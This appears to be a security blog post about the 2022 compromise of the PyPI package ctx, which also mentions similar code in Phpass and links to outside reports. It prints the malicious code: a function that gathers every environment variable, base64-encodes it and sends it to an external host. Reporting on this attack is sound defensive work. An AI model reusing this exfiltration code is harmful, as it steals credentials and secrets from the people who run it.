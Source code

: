 ```yaml
---
title: ""
description: 
slug: 
image: 
date: 2022-05-24
keywords: []
tags: []
authors: []
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## PyPi package, ctx, compromised

After 7 years, the pypi package ctx received a version update. The version was changed from `0.1.2` to `0.2.2` and in this 
update, malicious code was observed being added. 

<!--truncate-->

Malicous code that was addex to the `ctx` package.

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

## Phpass contains similar malware

The library Phpass also received identical malicous code.

https://twitter.com/s0md3v/status/1529010306466615296?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1529027612332335104%7Ctwgr%5E%7Ctwcon%5Es2_&ref_url=https%3A%2F%2Fblog.sonatype.com%2Fpypi-package-ctx-compromised-are-you-at-risk


Archived version page of package versions: https://archive.ph/xTUEN

Initial post observing the package had been updated: https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k
Reddit post with details about the malicious changes to ctx: https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/

Sonatype blog post with details about timeline: https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk 

### Limited Offer: We'll manually review your dependencies
 
We need your feedback to help prioritize what
features to build next and doing some manual work is the fastest way for us to get it. For a limited number of companies,
we are offering to manually review dependencies, eliminate the false positives, and send a report on what needs to be addressed and why.

Having some _very_ experienced security engineers take a look is great peace of mind. Please send an email to [deps@lunatrace.io](mailto:deps@lunasec.io) if you're interested.
